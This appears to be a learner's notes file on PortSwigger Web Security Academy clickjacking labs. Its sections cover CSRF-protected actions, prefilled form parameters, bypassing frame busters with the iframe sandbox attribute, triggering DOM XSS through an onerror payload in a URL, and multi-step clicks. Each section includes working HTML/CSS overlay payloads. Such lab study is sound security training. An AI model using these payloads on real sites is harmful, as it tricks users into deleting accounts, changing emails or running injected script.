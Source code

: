 # Encounters

# Basic Clickjacking with CSRF token protection
## Observations
- Website contains login functionality with the ability to delete account that's protected by CSRF token. Users will click on the word "click". 


# Clickjacking with form input data prefilled from a URL parameter
## Observations
It is possible to change the email address of the user via an update email button in the console. 
- The change email address can be prefilled by adding the email parameter to the URL so we can serve that via the URL in the iframe. 
```
<style>
    iframe {
        position:relative;
        width:700;
        height: 500;
        opacity: 50%;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450;
        left:90;
        z-index: 1;
    }
</style>
<div>click</div>
<iframe src="https://URL"></iframe>
```

They key is making sure the click is over the action you want the victim to take. 

# Clickjacking with Frame Buster
. A common client-side protection enacted through the web browser is to use frame busting or frame breaking scripts. These can be implemented via proprietary browser JavaScript add-ons or extensions such as NoScript. Scripts are often crafted so that they perform some or all of the following behaviors:

check and enforce that the current application window is the main or top window,
make all frames visible,
prevent clicking on invisible frames,
intercept and flag potential clickjacking attacks to the user.
Frame busting techniques are often browser and platform specific and because of the flexibility of HTML they can usually be circumvented by attackers. As frame busters are JavaScript then the browser's security settings may prevent their operation or indeed the browser might not even support JavaScript. An effective attacker workaround against frame busters is to use the HTML5 iframe sandbox attribute. When this is set with the allow-forms or allow-scripts values and the allow-top-navigation value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window:
```
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```
Both the allow-forms and allow-scripts values permit the specified actions within the iframe but top-level navigation is disabled. This inhibits frame busting behaviors while allowing functionality within the targeted site.
## Observations
-- Pretty much the same thing but the JavaScript within the page doesn't allow framing:
```
<script>
    if(top != self) {
        window.addEventListener("DOMContentLoaded", function() {
            document.body.innerHTML = 'This page cannot be framed';
    }, false);
}
</script>
```

```
<style>
    iframe {
        position:relative;
        width:700;
        height: 500;
        opacity: 50%;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450;
        left:90;
        z-index: 1;
    }
</style>
<div>click</div>
<iframe id="Victim Site" src="URL" sandbox="allow-forms"></iframe>
```


# Clickjacking to trigger DOM-xss
## Observations
This site allows users to submit feedback and the user's name is loaded into the DOM innerhtml upon submission but it has a CSRF token on it. 

```
<style>
    iframe {
        position:absolute;
        width:1000px;
        height: 900px;
        opacity: 0.0001%;
        z-index: 2;
    }
    div {
        position:absolute;
        top:820;
        left:100;
        z-index: 1;
    }
</style>
<div>Click Me</div>
<iframe src="https://0a17006704fbc76780058a5e00800058.web-security-academy.net/feedback?name=<img src=x onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test"></iframe>
```

- Used param miner, JS analysis, and the form field to ensure that I had the params correct.

# Multi-step click jacking
To get a user to delete their account they need to click two times on different buttons in different positions. This will require creating two elements. 

```
<style>
	iframe {
		position:relative;
		width:900px;
		height: 800;
		opacity: 50%;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:500;
		left:90;
		z-index: 1;
	}
   .secondClick {
		top:300;
		left:180;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="URL"></iframe>
```
